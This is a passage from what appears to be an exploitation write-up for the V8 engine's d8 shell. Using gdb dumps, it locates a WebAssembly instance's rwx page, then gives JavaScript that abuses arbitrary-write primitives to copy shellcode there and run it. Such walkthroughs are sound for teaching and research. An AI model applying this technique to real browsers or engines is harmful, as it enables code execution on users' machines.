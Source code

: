    0x000055eff740b000 0x000055eff800a000 0x00000000002e6000 r-x /home/df/v8/out.gn/x64.release/d8
    ...[snip]...



Right before the segments for `d8` itself there's a rwx segment, in this
case at 0x00002c3409915000.

Back in `db` (`c` from `gdb`), I can get the address of `wasm_instance`
using `%DebugPrint`:



    d8> %DebugPrint(wasm_instance)
    0x0bed08210e65 <Instance map = 0xbed08244901>
    [object WebAssembly.Instance]



Back in `gdb`, I'll dump a bunch of memory starting at `wasm_instance`,
and the address of that segment is in there, at an offset of 0x68:



    gef➤  x/16gx 0x0bed08210e65-1
    0xbed08210e64:  0x080406e908244901      0x20000000080406e9
    0xbed08210e74:  0x0001000000007f38      0x0000ffff00000000
    0xbed08210e84:  0x0000006000000000      0x080406e900000bed
    0xbed08210e94:  0x000055eff9ac3200      0x00000000080406e9
    0xbed08210ea4:  0x0000000000000000      0x0000000000000000
    0xbed08210eb4:  0x0000000000000000      0x000055eff9ac3220
    0xbed08210ec4:  0x00000bed00000000      0x00002c3409915000 <-- address of rwx memory
    0xbed08210ed4:  0x08086f6508086e09      0x08210e4d08200f51



#### Write Shellcode to Segment

I'll use the same code from Faith's post to write shellcode into this
page, and then call `f()`:



    function copy_shellcode(addr, shellcode) {
        let buf = new ArrayBuffer(0x100);
        let dataview = new DataView(buf);
        let buf_addr = addrof(buf);
        let backing_store_addr = buf_addr + 0x14n;
        arbwrite(backing_store_addr, addr);

        for (let i = 0; i < shellcode.length; i++) {
            dataview.setUint32(4*i, shellcode[i], true);
        }
    }

    var shellcode=[0xcccccccc];
    console.log("[*] Copying shellcode tp rwx page")
    copy_shellcode(rwx_page_addr, shellcode);
    console.log("[*] Executing shellcode...");
    f();
